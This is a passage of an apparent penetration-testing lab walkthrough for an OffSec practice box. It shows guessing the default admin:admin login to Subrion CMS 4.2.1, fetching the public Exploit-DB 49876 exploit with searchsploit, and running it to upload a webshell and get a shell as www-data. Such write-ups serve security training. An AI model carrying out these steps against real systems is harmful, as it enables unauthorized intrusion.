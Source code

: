 ## Exploitation

### Guessing Admin Credentials

After trying some common and well-known default credential pairs to log in, we succeed with `admin:admin`. After authenticating, we are presented with an administrative dashboard. In fact, these credentials also work for the first login control at http://exfiltrated.offsec/login/, where we can find a link that leads to the same dashboard.

### Subrion CMS 4.2.1 - File Upload Bypass and RCE

Public exploit search reveals a [Remote Code Execution](https://www.exploit-db.com/exploits/49876) vulnerability in this version of the application. Let's update `searchsploit` and then copy the exploit to our working directory.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit -u
...

┌──(kali㉿kali)-[~]
└─$ searchsploit -m 49876
  Exploit: Subrion CMS 4.2.1 - File Upload Bypass to RCE (Authenticated)
      URL: https://www.exploit-db.com/exploits/49876
     Path: /usr/share/exploitdb/exploits/php/webapps/49876.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /home/kali/49876.py
```

This exploit requires us having valid credentials for the application. Luckily, we were able to guess them and can give this exploit a try.

```
┌──(kali㉿kali)-[~]
└─$ python3 49876.py -u http://exfiltrated.offsec/panel/ --user admin --pass admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://exfiltrated.offsec/panel/
[+] Success!
[+] Got CSRF token: ab3nXsOBXekpoyirF4ndK4aN7iMq3HKWqvn4WHeC
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: wbwaycgwzypbqtv

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://exfiltrated.offsec/panel/uploads/wbwaycgwzypbqtv.phar 

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ 
```
